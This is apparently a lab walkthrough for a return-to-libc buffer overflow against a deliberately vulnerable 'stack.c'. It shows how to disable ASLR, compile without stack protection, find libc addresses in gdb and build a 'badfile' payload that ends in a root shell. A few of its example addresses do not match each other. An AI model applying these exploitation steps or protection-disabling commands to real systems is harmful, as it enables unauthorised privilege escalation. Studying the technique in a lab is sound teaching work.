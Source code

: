 # Return-to-libc Attack Guide

## 📌 Step 1: Disable ASLR

ASLR (Address Space Layout Randomization) may affect the stability of the experiment. You can temporarily disable ASLR:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

This ensures that each time `stack` runs, the `libc` load address remains unchanged, making the return-to-libc attack more stable.

## 📌 Step 2: Compile `stack.c`

Your `stack.c` code contains a typical buffer overflow vulnerability. First, stack protection needs to be disabled; otherwise, GCC will prevent buffer overflows by default:

```bash
gcc -m32 -fno-stack-protector -z execstack -o stack stack.c
```

### Explanation:
- `-m32` 👉 Compiles as 32-bit code (if your `libc` is 32-bit).
- `-fno-stack-protector` 👉 Disables canary protection.
- `-z execstack` 👉 Allows execution of code on the stack (for shellcode).
- `-o stack` 👉 Generates an executable file named `stack`.

If your system is 64-bit, you may need to install 32-bit libraries:

```bash
sudo apt-get install gcc-multilib
```

Then compile:

```bash
gcc -m32 -fno-stack-protector -z execstack -o stack stack.c
```

## 📌 Step 3: Run `stack` and Check for Vulnerability

First, run `stack` to ensure it reads `badfile` correctly:

```bash
./stack
```

Since `badfile` has not been created yet, `stack` may output:

```
Returned Properly
```

However, once `badfile` contains a malicious payload, it may hijack the return address and execute `system("/bin/sh")`, gaining a shell.

## 📌 Step 4: Determine `system()` Address

To execute return-to-libc, you need to find the `system()` function address using `gdb`:

```bash
gdb stack
```

Inside `gdb`, run:

```gdb
(gdb) b foo
(gdb) r
```

Then check the address of `system()`:

```gdb
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e42da0 <system>
```

Record this address (e.g., `0xf7e42da0`) as it will be used to craft the attack payload.

You can also locate the address of `"/bin/sh"` in `libc`:

```gdb
(gdb) find 0xf7e00000, 0xf7ffffff, "/bin/sh"
```

It may output:

```
0xf7f4d890
```

Remember the `"/bin/sh"` address.

## 📌 Step 5: Generate `badfile`

The `libc_exploit.py` script is used to craft the attack input. Its core logic is:

```python
sh_addr = 0xbffffdd8     # Address of "/bin/sh"
exit_addr = 0xb7e369d0   # Address of exit()
system_addr = 0xb7e42da0 # Address of system()
```

Modify these values based on the `gdb` output, then run:

```bash
python3 libc_exploit.py
```

This script generates `badfile`, which contains carefully crafted buffer overflow data to hijack the return address and execute:

```c
system("/bin/sh");
```

## 📌 Step 6: Execute `stack`

Run:

```bash
./stack
```

If `badfile` is generated correctly, the program will execute `system("/bin/sh")`, granting you a root shell:

```ini
# id
uid=0(root) gid=0(root) groups=0(root)
```

## 📌 Step 7: Verify the Attack

If `stack` crashes:

- Ensure ASLR is disabled (`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`).
- Verify `system()` and `"/bin/sh"` addresses are correct using `gdb`.
- Make sure the addresses in `libc_exploit.py` match the `gdb` output.
- When running `stack`, check if `badfile` is correctly formatted:

```bash
hexdump -C badfile
```

Ensure that `system()` and `"/bin/sh"` addresses are at the correct positions.

---

**Done! 🎯 You have successfully executed a return-to-libc attack!**
